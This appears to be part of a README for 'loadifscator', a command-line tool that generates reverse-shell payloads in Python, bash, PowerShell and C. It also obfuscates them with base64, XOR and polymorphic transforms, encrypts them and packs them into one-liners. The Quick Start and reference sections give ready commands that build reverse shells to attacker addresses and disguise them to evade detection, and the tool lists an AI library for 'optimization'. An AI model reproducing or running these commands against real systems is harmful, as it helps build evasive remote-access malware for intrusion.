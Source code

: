 - [typer](https://typer.tiangolo.com/) - CLI framework
- [jinja2](https://palletsprojects.com/p/jinja/) - Templating
- [cryptography](https://cryptography.io/) - Encryption
- [pycryptodome](https://www.pycryptodome.org/) - Crypto primitives
- [rich](https://rich.readthedocs.io/) - Terminal formatting
- [openai](https://platform.openai.com/docs/api-reference) - AI optimization
- [requests](https://docs.python-requests.org/) - HTTP requests

---

## Quick Start

### Generate a Python Reverse Shell
```bash
python -m loadifscator.cli generate python 10.10.10.10 4444 -o reverse.py
```

### Obfuscate the Payload (Polymorphic)
```bash
python -m loadifscator.cli obfuscate polymorphic --file reverse.py -o poly_reverse.py
```

### Encrypt the Payload
```bash
python -m loadifscator.cli encrypt --file poly_reverse.py --key "S3cr3tK3y123" -o encrypted.py
```

### Generate a One-Liner
```bash
python -m loadifscator.cli oneliner --file encrypted.py --lang python
```

---

## Command-Line Reference

### 1. Payload Generation
```
python -m loadifscator.cli generate [LANG] [IP] [PORT] -o [OUTPUT]
```
- LANG: python, bash, powershell, c
- Example: `python -m loadifscator.cli generate bash 192.168.1.5 9001 -o rev.sh`

### 2. Obfuscation
```
python -m loadifscator.cli obfuscate [TYPE] --file [INPUT] -o [OUTPUT] [--key KEY]
```
- TYPE: base64, xor, stringmangle, polymorphic
- Example: `python -m loadifscator.cli obfuscate xor --file rev.sh -o rev_xor.sh --key secret`

### 3. Encryption
```
python -m loadifscator.cli encrypt --file [INPUT] --key [KEY] -o [OUTPUT]
```
